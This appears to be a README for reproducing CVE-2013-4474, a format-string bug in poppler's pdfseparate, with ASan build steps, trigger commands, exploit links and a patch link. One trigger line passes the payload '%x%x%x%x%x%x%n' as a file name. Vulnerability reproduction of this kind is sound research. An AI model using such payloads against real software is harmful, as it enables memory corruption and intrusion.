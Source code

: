 # CVE-2013-4474

## Experiment Environment

CentOS 6.5

## INSTALL & Configuration

```
wget https://github.com/mudongliang/source-packages/raw/master/CVE-2013-4473/poppler-0.24.2.tar.xz
tar -xvf poppler-0.24.2.tar.xz
cd poppler-0.24.2
CC=../../../../llvm-4.0.0-project/ASan--Build/bin/clang CXX=../../../../llvm-4.0.0-project/ASan--Build/bin/clang++ CFLAGS="-fsanitize=address -g" CXXFLAGS="-fsanitize=address -g" ./configure
make
```

## Problems in Installation & Configuration


## How to trigger vulnerability

```
./utils/pdfseparate -f 1 -l 1 aPdfFile.pdf "%x%x%x%x%x%x%n"
./utils/pdfseparate demo.pdf test-%s-%d.pdf
```

## PoCs

[CVE request: 3 vulnerabilities in poppler and 1 in Xpdf](http://seclists.org/oss-sec/2013/q4/181)

[Poppler 0.14.3 - '/utils/pdfseparate.cc' Local Format String](https://www.exploit-db.com/exploits/38817/)

[Poppler '/utils/pdfseparate.cc' Local Format String Vulnerability](https://www.securityfocus.com/bid/63374/exploit)

## Vulnerability Details & Patch

### Root Cause

### Stack Trace

### Patch

Details are in <https://cgit.freedesktop.org/poppler/poppler/diff/utils/pdfseparate.cc?id=61f79b8447c3ac8ab5a26e79e0c28053ffdccf75>

## References
